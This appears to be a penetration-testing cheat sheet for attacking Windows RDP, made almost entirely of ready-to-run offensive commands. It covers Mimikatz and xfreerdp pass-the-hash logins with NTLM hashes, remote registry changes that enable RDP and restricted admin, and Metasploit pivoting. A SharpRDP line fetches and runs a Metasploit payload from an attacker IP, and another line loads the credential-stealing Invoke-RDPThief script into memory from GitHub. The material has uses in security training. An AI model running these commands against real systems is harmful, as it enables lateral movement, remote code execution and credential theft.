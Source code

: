 # RDP Pass-the-Hash

## Mimikatz
```
privilege::debug

# Domain
sekurlsa::pth /user:[User] /domain:[Domain] /ntlm:[RC4] /run:"mstsc.exe /restrictedadmin"

# PTH to local admin
sekurlsa::pth /user:administrator /ntlm:58a478135a93ac3bf058a5ea0e8fdb71 /domain:web06 /run:"mstsc.exe /restrictedadmin"
```

## xfreeRDP
Potentially append ```/admin``` to the command below if required to force a user off RDP to connect.
```bash
xfreerdp /u:[User] /pth:[RC4] /v:[IP] /cert-ignore +clipboard /dynamic-resolution
```
## Enabling / Disabling RDP from remote
```powershell
# Windows
# Enable
PsMapExec -Targets appsrv01 -Method wmi -Username admin -Hash 2892D26CDF84D7A70E2EB3B9F05C425E -Command "reg add 'HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server' /v fDenyTSConnections /t REG_DWORD /d 0 /f"

# Disable
PsMapExec -Targets appsrv01 -Method wmi -Username admin -Hash 2892D26CDF84D7A70E2EB3B9F05C425E -Command "reg add 'HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server' /v fDenyTSConnections /t REG_DWORD /d 1 /f"

# Linux
# Enable
netexec smb 192.168.210.6 -u admin -H 2892D26CDF84D7A70E2EB3B9F05C425E -d corp1 -x "reg add 'HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server' /v fDenyTSConnections /t REG_DWORD /d 0 /f"

# Disable
netexec smb 192.168.210.6 -u admin -H 2892D26CDF84D7A70E2EB3B9F05C425E -d corp1 -x "reg add 'HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server' /v fDenyTSConnections /t REG_DWORD /d 1 /f"
```

## Enabling / Disabling restricted admin from remote

```powershell
# Windows
# Enable
PsMapExec -Targets appsrv01 -Method wmi -Username admin -Hash 2892D26CDF84D7A70E2EB3B9F05C425E -Command "reg add HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f"

# Disable
PsMapExec -Targets appsrv01 -Method wmi -Username admin -Hash 2892D26CDF84D7A70E2EB3B9F05C425E -Command "reg add HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 1 /f"

# Linux
# Enable
netexec smb 192.168.210.6 -u admin -H 2892D26CDF84D7A70E2EB3B9F05C425E -d corp1 -x "reg add HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f"

# Disable
netexec smb 192.168.210.6 -u admin -H 2892D26CDF84D7A70E2EB3B9F05C425E -d corp1 -x "reg add HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 1 /f"
```
Output when attempting to connect with `mstsc.exe /restrictedadmin` when `DisableRestrictedAdmin` is set to `1` (Disabled)

![image](https://github.com/user-attachments/assets/40444178-7b89-4f15-8e57-3e34e198a6fe)

# RDP Proxying

## Metasploit
```
# Sets up a tunnel and routes traffic from the compromised host's network back to Metasploit
use multi/manage/autoroute
set session 1
exploit

# Sets up a local SOCKS4A proxy server to tunnel traffic Mthrough etasploit
use auxiliary/server/socks4a
set srvhost 127.0.0.1
exploit -j

# Configure socks proxy
set version 4a
set srvhost 127.0.0.1
run

# Configure proxychains
sudo nano /etc/proxychains4.conf 

# Change port on last line to same port used above
```
# RDP Command Execution
```powershell
sharprdp.exe computername=appsrv01 command="powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/met.exe', 'C:\Windows\Tasks\met.exe'); C:\Windows\Tasks\met.exe" username=corp1\dave password=lab
```
# Invoke-RDPThief

```powershell
# Load into memory and execute (Run as admin)
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/Invoke-RDPThief/refs/heads/main/Invoke-RDPThief.ps1")
```
